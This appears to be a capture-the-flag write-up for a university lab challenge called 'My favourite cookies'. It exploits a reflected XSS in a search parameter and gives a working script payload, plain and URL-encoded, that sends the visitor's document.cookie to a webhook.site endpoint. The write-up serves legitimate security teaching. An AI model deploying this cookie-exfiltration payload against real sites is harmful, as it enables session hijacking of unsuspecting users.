 # Challenge `My favourite cookies` writeup

- **Vulnerability:** XSS
- **Where:** in feedback
- **Impact:** Allows injection of \<script\> tag and execution of arbitrary script

## Steps to reproduce

1. Create a request bin in **webhook.site**
1. Create a script that requests the created endpoint and sends the user cookie as a query parameter: `<script>var i = new Image; i.src= "https://webhook.site/3cf170ec-fafe-4c0a-83be-50f34d4429f9?q=" + document.cookie</script>`. This script leverages the use of HTML images to automatically request source URL.
1. Insert into feedback URL bar after URL encoding `http://mustard.stt.rnl.tecnico.ulisboa.pt:22251/?search=%3Cscript%3Evar+i+%3D+new+Image%3B+i.src%3D+%22https%3A%2F%2Fwebhook.site%2F3cf170ec-fafe-4c0a-83be-50f34d4429f9%3Fq%3D%22+%2B+document.cookie%3C%2Fscript%3E` for the reviewer to access a page with a malicious search query. The description does not matter.
1. Submit feedback and get the flag from webhook website.
